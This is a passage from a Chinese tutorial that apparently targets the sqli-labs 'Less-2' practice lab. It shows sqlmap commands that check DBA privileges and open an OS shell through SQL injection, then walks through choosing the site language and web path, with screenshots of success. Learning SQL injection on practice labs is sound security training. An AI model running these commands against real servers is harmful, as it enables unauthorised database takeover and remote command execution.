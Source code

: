 ``````bat
py sqlmap.py -u "http://{YOUR_IP}:{YOUR_PORT}/Less-2/index.php?id=1" --is-dba
``````

#### 进行 os-shell

``````bat
py sqlmap.py -u "http://{YOUR_IP}:{YOUR_PORT}/Less-2/index.php?id=1" --os-shell
``````

##### 选择网站语言

![选择网站语言](.assets/选择网站语言.png)

*根据实际情况选，这边选 **4***

##### 网站路径

![网站路径](.assets/网站路径.png)

*知道绝对路径选 **2** 填写，不知道选 **1** 碰运气*

##### 成功

![确认](.assets/确认.png)

![成功](.assets/成功.png)

------

微信公众号文章：[mp.weixin.qq.com/s/DxGLzTnCAHwJ4qEC8pCGlQ](https://mp.weixin.qq.com/s/DxGLzTnCAHwJ4qEC8pCGlQ)
